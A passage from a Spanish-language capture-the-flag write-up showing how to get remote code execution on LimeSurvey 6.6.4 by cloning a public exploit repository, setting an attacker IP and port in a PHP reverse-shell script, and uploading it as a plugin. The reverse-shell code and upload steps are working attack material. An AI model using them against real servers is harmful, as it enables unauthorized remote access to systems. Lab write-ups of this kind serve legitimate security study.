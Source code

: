 - https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE

Clonaremos el repo en nuestro directorio de trabajo para explotar esta vulnerabilidad

~~~ bash
git clone https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE.git
cd Limesurvey-6.6.4-RCE
~~~

Editaremos dos parámetros del archivo `revshell.php` para poder enviar una shell a nuestra IP por un puerto que nosotros seleccionemos

~~~ php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.7';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
...
...
~~~

Una vez editado, debemos crear el archivo `.zip` que actúe como un plugin enviando el archivo PHP 

~~~ bash
zip -r N4s1rl1.zip config.xml revshell.php
~~~

Para cargar el plugin nos dirigiremos a `Configuration` > `Plugins` > `Upload and Install`

![image-center](/assets/images/posts/heal-limesurvey-file-upload.png)
{: .align-center}

Luego nos cargará la siguiente página, obviamente haremos clic en `Install` para obviamente instalar el plugin
